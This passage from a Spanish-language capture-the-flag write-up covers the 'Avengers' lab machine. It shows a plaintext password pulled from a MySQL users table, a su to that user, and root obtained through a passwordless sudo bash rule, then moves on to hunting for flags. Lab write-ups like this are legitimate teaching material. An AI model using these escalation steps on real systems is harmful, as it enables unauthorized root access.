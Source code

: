 Viendo la tabla **users**, encontramos algo muy útil:
```bash
MySQL [no_db]> select * from users;
+----+--------+---------------+
| id | user   | password      |
+----+--------+---------------+
|  1 | stif   | escudoamerica |
|  2 | hulk   | fuerza*****   |
|  3 | antman | ******        |
|  4 | thanos | NOPASSWD      |
+----+--------+---------------+
4 rows in set (0.002 sec)
```
La única contraseña que podemos probar, será la del **usuario stif**.

<br>

<h2 id="stif">Autenticandonos como Usuario stif y Escalando Privilegios para Ser Root</h2>

Desde nuestra sesión del **usuario hulk**, nos autenticamos como el **usuario stif**:
```bash
hulk@TheHackersLabs-Avengers:~$ su stif
Password: 
stif@TheHackersLabs-Avengers:/home/hulk$ whoami
stif
```

Obtengamos los privilegios de este usuario:
```bash
stif@TheHackersLabs-Avengers:~$ sudo -l
Matching Defaults entries for stif on TheHackersLabs-Avengers:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User stif may run the following commands on TheHackersLabs-Avengers:
    (ALL : ALL) NOPASSWD: /usr/bin/bash
    (ALL : ALL) NOPASSWD: /usr/bin/unzip
```
Excelente, podemos usar la **Bash** como **Root**. 

Ósea, que podemos iniciar una **Bash con privilegios de Root**:
```bash
stif@TheHackersLabs-Avengers:~$ sudo bash -p
root@TheHackersLabs-Avengers:/home/stif# whoami
root
```
Puedes dar por terminada la máquina aquí y solamente buscar las flags del usuario y del **Root**. 

En mi caso, continuaré como el **usuario stif**, buscaré las flags que faltan y al final mostraré dónde se ubican las flags del **usuario y del Root**.

<br>

<h2 id="stif2">Enumeración de Archivos del Usuario stif</h2>

Veamos qué archivos nos encontramos por aquí:
```bash
stif@TheHackersLabs-Avengers:~$ tree -a
.
├── .bash_history -> /dev/null
├── .bash_logout
├── .bashrc
├── flag
│   └── FLAG.txt.zip
├── game.py
├── .local
│   └── share
│       └── nano
├── pista
```